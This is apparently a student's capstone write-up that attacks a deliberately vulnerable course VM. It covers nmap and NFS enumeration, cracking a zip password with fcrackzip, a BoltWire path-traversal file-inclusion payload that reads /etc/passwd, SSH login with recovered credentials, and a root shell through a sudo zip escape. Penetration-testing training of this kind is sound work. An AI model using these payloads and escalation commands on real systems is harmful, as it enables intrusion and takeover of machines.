# Course Capstone - Dev

This capstone challenge aims to exploit a course-provided linux VM.

We will be attacking this vulnerable victim VM from a separate Kali Linux VM (mentioned later as 'attacker VM').

## VM Setup
The VM must first be imported into your hypervisor. I used VirtualBox. <br>
**Be sure that your attacker VM and victim VM have the same network adapter so they can reach one another.**

Start the victim VM, log in using provided credentials in **root password.txt** and grab its IP address using the commands **dhclient** and **ip a**.



Ensure your attacker VM can reach this machine by **pinging** it.

## Initial Enumeration
Run an Nmap scan against the victim VM: <br>
`nmap -T4 -p- -A [VICTIM VM IP]`

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-09 17:03 -0400
Nmap scan report for 10.0.2.13
Host is up (0.00021s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Bolt - Installation error
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      39468/udp6  mountd
|   100005  1,2,3      41593/udp   mountd
|   100005  1,2,3      49073/tcp   mountd
|   100005  1,2,3      56379/tcp6  mountd
|   100021  1,3,4      33281/tcp6  nlockmgr
|   100021  1,3,4      44211/tcp   nlockmgr
|   100021  1,3,4      53643/udp   nlockmgr
|   100021  1,3,4      56788/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
33693/tcp open  mountd   1-3 (RPC #100005)
44211/tcp open  nlockmgr 1-4 (RPC #100021)
49073/tcp open  mountd   1-3 (RPC #100005)
51901/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:4E:9D:AB (Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms 10.0.2.13
``` 

The scan results tell us that the vulnerable VM has a network file share (NFS) on port 2049, as well as two web servers on ports 80 & 8080.

We can gain more information from the file share by mounting it to our attacker machine. We can see the NFS server's mount info using the command `showmount -e [VICTIM IP]`.
```
Export list for 10.0.2.13:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

Now we know there is an NFS server at **/srv/nfs**. Let's see what data we can gather from it.
First, create a new directory as the local mount point using: `mkdir /mnt/[MOUNT NAME]` then mount the file share to this directory: `mount -t nfs [VICTIM IP]:/srv/nfs /mnt/[MOUNT NAME]`.

After mounting, we can list the contents of the file share with `ls`:



The lone file **save.zip** is locked with a password. Now we must try and crack it using [fcrackzip](https://www.kali.org/tools/fcrackzip/). You may need to install the package using `apt install fcrackzip`.

Using the command `fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip` we can crack the password. We're launching a dictionary attack (-D) to unzip (-u) the file guessing passwords in the rockyou wordlist file (-p) with verbosity enabled (-v).



We can now open the save.zip file using the newly cracked password. Its contents include a private key file (id_rsa) and a text file (todo.txt), which reads:
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

Let's continue by enumerating the running web servers. I like to use [dirb](https://www.kali.org/tools/dirb/) to search for directories. The tool output has been shorted to only include relevant info.

**Port 80**:
```
dirb http://10.0.2.13           

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul  9 17:07:42 2026
URL_BASE: http://10.0.2.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.13/ ----
                                                                                    
+ http://10.0.2.13/index.php (CODE:200|SIZE:3833)                                                                                                 
==> DIRECTORY: http://10.0.2.13/public/                                                                                                                                                     
---- Entering directory: http://10.0.2.13/public/ ----
==> DIRECTORY: http://10.0.2.13/public/extensions/                                                                                                
==> DIRECTORY: http://10.0.2.13/public/files/                                                                                                     
+ http://10.0.2.13/public/index.php (CODE:302|SIZE:372) 
```

**Port 8080**:
```
dirb http://10.0.2.13:8080                                                                                     
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul  9 18:12:39 2026
URL_BASE: http://10.0.2.13:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.13:8080/ ----
==> DIRECTORY: http://10.0.2.13:8080/dev/                                                                                                         
+ http://10.0.2.13:8080/index.php (CODE:200|SIZE:94559)                                                                                           
+ http://10.0.2.13:8080/server-status (CODE:403|SIZE:276)   
```

We now have 2 useful starting points for investigating further:
* http://[VICTIM VM IP]/public/index.php 
    * 

* http://[VICTIM VM IP]:8080/dev/index.php 
    * 

The Bolt site on port 80 asks us to create a new user **which will be granted root privileges**. Create a new user to continue gathering info from the app. After logging in we will see the user's dashboard:



If we navigate to the **Configuration > Main configuration** page, we see the contents of the **config://config.yml** file which provides database credentials. Be sure to save these for later.



## Gaining a Foothold

Since we have discovered that the machine is running the web development platform **Boltwire**, we can start searching for potential vulnerabilities. 

Use **searchsploit** to search for issues listed in the [exploit-db](https://www.exploit-db.com/). 



We have an interesting **Local File Inclusion** finding. We can see more information about the exploit [here](https://www.exploit-db.com/exploits/48411).

This exploit tells us the following:
```
Using HTTP GET request browse to the following page, whilst being authenticated user.
http://[VICTIM VM IP]/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd
```

So we first need to register a new BoltWire user in order to continue exploiting the service. After doing that, open browse to the vulnerable page provided: `http://[VICTIM VM IP]/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd` where we can see the full listing of the **/etc/passwd** file.



Looking at it closer, there is a user listed named **jeanpaul**, which could be the same person "jp" we've seen before from the **todo.txt** file.

Knowing what we know about jp (that they love java), let's try to log in as them. SSH into the victim VM as jeanpaul using their private key file in the network file share (id_rsa) and their password taken from the config.yml file: **I_love_java**.



Now we have user-level access into this machine!

## Privilege Escalation

We can start by using the command `sudo -l` to see what jeanpaul can execute as root.

```
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

Now we can search for an executable on [GTFOBins](https://gtfobins.org/gtfobins/zip/#shell) that will elevate us to root privileges.

Running the command `sudo zip /tmp/file.txt /etc/hosts -T -TT '/bin/sh #'` as jeanpaul grants us root access. Confirm this using `whoami`.



There is a flag in **/root/flag.txt**: `Congratz on rooting this box !`
